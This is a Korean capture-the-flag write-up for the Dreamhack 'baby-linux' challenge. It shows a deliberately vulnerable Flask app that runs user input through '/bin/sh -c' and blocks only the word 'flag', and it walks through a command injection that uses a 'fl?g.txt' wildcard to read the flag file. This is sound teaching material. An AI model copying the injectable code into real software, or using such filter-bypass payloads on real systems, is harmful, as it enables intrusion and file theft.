 ```yaml
---
slug: baby-linux
title: "baby-linux"
description: "리눅스 명령어를 실행하는 웹 서비스가 작동하고 있을 때 플래그를 찾아라"
author: oxahex
createdAt: 2024-05-24
tags: ["wargame"]
---
```


# 문제 설명
[837](https://dreamhack.io/wargame/challenges/837)

리눅스 명령어를 실행하는 웹 서비스가 작동하고 있습니다.
해당 웹 서비스의 코드가 첨부파일로 주어집니다.

`flag.txt` 파일을 찾아 출력하여 플래그를 획득하세요!

플래그 형식은 `DH{...}` 입니다.

## 풀이
문제 서버로 curl 요청을 전달하면 html 파일을 볼 수 있다.

```html
<html>
<head>
  <link rel="stylesheet" href="/static/css/bootstrap.min.css">
  <link rel="stylesheet" href="/static/css/bootstrap-theme.min.css">
  <link rel="stylesheet" href="/static/css/non-responsive.css">
</head>

<body class="container">
  <form method="POST">
    <div class="row">
      <div class="col-md-6 form-group">
        <h1>Baby Linux</h1><br/>
        <div class="input_box">
          <p class="input_txt">echo $(<input type="text" name="user_input" class="input_in_txt" required>)</p>
        </div>
      </div>
    </div>

    <button type="submit" class="btn btn-default">Submit</button>
  </form><br/><br/>
  <h2>Result</h2>
  <pre></pre>


  <script src="/static/js/jquery.min.js"></script>
  <script src="/static/js/bootstrap.min.js"></script>
</body>
</html>
```
보면 `user_input` 이라는 이름의 form을 POST로 서버에 전송하고, 이를 통해 플래그를 받을 수 있음을 알 수 있다. 서버의 코드를 확인해보면 다음과 같다.

```python
#!/usr/bin/env python3
import subprocess
from flask import Flask, request, render_template

APP = Flask(__name__)

@APP.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        user_input = request.form.get('user_input')
        cmd = f'echo $({user_input})'
        if 'flag' in cmd:
            return render_template('index.html', result='No!')

        try:
            output = subprocess.check_output(['/bin/sh', '-c', cmd], timeout=5)
            return render_template('index.html', result=output.decode('utf-8'))
        except subprocess.TimeoutExpired:
            return render_template('index.html', result='Timeout')
        except subprocess.CalledProcessError:
            return render_template('index.html', result='Error')

    return render_template('index.html')

if __name__ == '__main__':
    APP.run(host='0.0.0.0', port=8000)
```

코드를 보면 `cmd = f’echo $({user_input})’`으로 유저의 입력값을 그대로 echo 처리 해서 사용하고 있는 것을 볼 수 있다.
유저가 입력한 text에 flag라는 문자열이 포함되어 있으면 No! 라는 문자열을 반환하고, 실제로 플래그를 얻을 수 있는 작업은 try문 이후임을 알 수 있다.

subprocess 모듈은 Python에서 새로운 프로세스를 생성하고, 해당 프로세스의 입력, 출력, 에러를 파이프에 연결해 반환 코드를 얻도록 하는 모듈이다. try문의 내용은 유저의 입력값을 인라인 코드로 실행한 결과를 output 변수에 할당하고, 이를 디코딩해서 반환하는 것이다.

그렇다면 유저 인풋에 명령어를 넣어서 요청하면 명령어가 포함된 cmd 스트링은 `subprocess.check_output()` 함수에 그대로 인자로 들어가게 되므로 입력값에 포함된 명령어를 실행하게 된다.

따라서 현재 폴더에 있는 모든 파일을 확인해보면,

```shell
total 32
drwxr-xr-x 5 chall chall 4096 Apr 21 2023 .
dr-xr-xr-x 1 root root 4096 Mar 18 01:55 ..
-rwxr-xr-x 1 root root 884 Apr 21 2023 app.py
drwxr-xr-x 3 root root 4096 Apr 21 2023 dream
-rw-r--r-- 1 root root 34 Apr 21 2023 hint.txt
-rw-r--r-- 1 root root 5 Apr 21 2023 requirements.txt
drwxr-xr-x 5 root root 4096 Apr 21 2023 static
drwxr-xr-x 2 root root 4096 Apr 21 2023 templates
```

이런 파일이 있는 것을 볼 수 있다.

우선 shell을 실행하고 있는 내 권한과, 현재 위치를 확인해보면 유저 이름은 `chall`, 현재 위치는 `/app`인 것을 알 수 있다. `/app` 폴더의 권한을 보면, 소유자는 chall, 소유 그룹은 chall, 소유자는 쓰기, 실행, 읽기 권한, 소유 그룹은 실행, 읽기 권한, 그 외 그룹은 실행 권한만 가지고 있는 것을 볼 수 있다.

```shell
drwxr-xr-x 5 chall chall 4096 Apr 21 2023 .
```

`hint.txt` 파일은 root 소유의 파일이고, 내 권한으로는 읽는 것만 가능하다. 궁금하니까 우선 읽어오면,

```shell
Where is Flag? ./dream/hack/hello
```

여기에 플래그의 위치가 적혀있다. 해당 폴더의 목록을 확인하면 다음과 같다.

```shell
total 12
drwxr-xr-x 2 root root 4096 Apr 21 2023 .
drwxr-xr-x 3 root root 4096 Apr 21 2023 ..
-rw-r--r-- 1 root root 68 Apr 21 2023 flag.txt
```

`flag.txt` 파일 역시 root 소유의 파일이다. 하지만 내 권한으로 읽을 수 있긴 하다. 파일을 읽어오면 될 것 같지만 `cat ./dream/hack/hello/flag.txt` 명령어에는 flag 문자열이 있으므로 Python 코드의 분기에 걸리게 된다. 따라서 다른 방법이 필요하다.

코드에 따르면 유저가 text input에 뭔가를 적는다는 것은 아래 명령어를 실행하는 것과 동일하다.

```shell
/bin/sh -c {user_input}
```
Python 코드에는 정확히 flag라고 되어 있으므로 와일드카드를 사용하면 flag라는 텍스트를 전부 입력하지 않아도 해당 파일을 읽어올 수 있다.

```shell
/bin/sh -c cat ./dream/hack/hello/fl?g.txt
```

위 명령어가 내부적으로 실행되도록 `cat ./dream/hack/hello/fl?g.txt` 문자열을 서버에 전송하면 `flag.txt` 파일을 읽어올 것이고, 이것은 cmd 변수에 할당된다. 따라서 디코딩 된 플래그를 출력할 수 있게 된다.
